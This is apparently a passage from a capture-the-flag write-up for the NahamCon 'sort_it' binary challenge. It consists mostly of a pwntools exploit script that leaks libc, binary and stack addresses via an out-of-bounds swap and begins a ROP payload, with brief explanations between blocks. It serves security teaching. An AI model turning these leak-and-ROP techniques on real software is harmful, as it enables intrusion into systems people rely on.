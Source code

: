 ```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./sort_it_patched')

if args.REMOTE:
	p = remote('challenge.nahamcon.com', 32674)
	libc = ELF('./libc-2.31.so')
else:
	p = process(binary.path)
	libc = binary.libc
```

```python
# get libc address
p.sendlineafter('continue...','')
p.sendlineafter('select: ','1')
p.sendlineafter('with: ','14')
p.recvuntil('1. ')
_ = p.recv(6)
libc_start_main = u64(_ + b'\0\0') - 243
libc.address = libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
p.sendlineafter('[y/n]: ','n')
```

Above this will swap the libc leak with the first element in the list (`orange`).  The provided libc is not dissimilar that what is included with Ubuntu 20.04, so the 243 offset should be the similar as well (and is).

```python
# get main address
p.sendlineafter('select: ','1')
p.sendlineafter('with: ','18')
p.recvuntil('1. ')
_ = p.recv(6)
main = u64(_ + b'\0\0')
binary.address = main - binary.sym.main
log.info('binary.address: ' + hex(binary.address))
log.info('yn: ' + hex(binary.sym.yn))
p.sendlineafter('[y/n]: ','n')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
```

Leak `main` just like how libc was leaked, however from position 18 vs. 14.  Also there is no offset to worry about (see stack above in Analysis section).

While here we need to find a `pop rdi` gadget for the next step.

```python
# get stack address
p.sendlineafter('select: ','1')
p.sendlineafter('with: ','11')
p.recvuntil('1. ')
_ = p.recv(6)
stack = u64(_ + b'\0\0') - (0x00007fffffffe470 - 0x00007fffffffe320)
log.info('1. element: ' + hex(stack))
p.sendlineafter('[y/n]: ','n')
p.sendlineafter('select: ','1')
p.sendlineafter('with: ','11')
p.sendlineafter('[y/n]: ',8*b'n' + p64(pop_rdi+1))
```
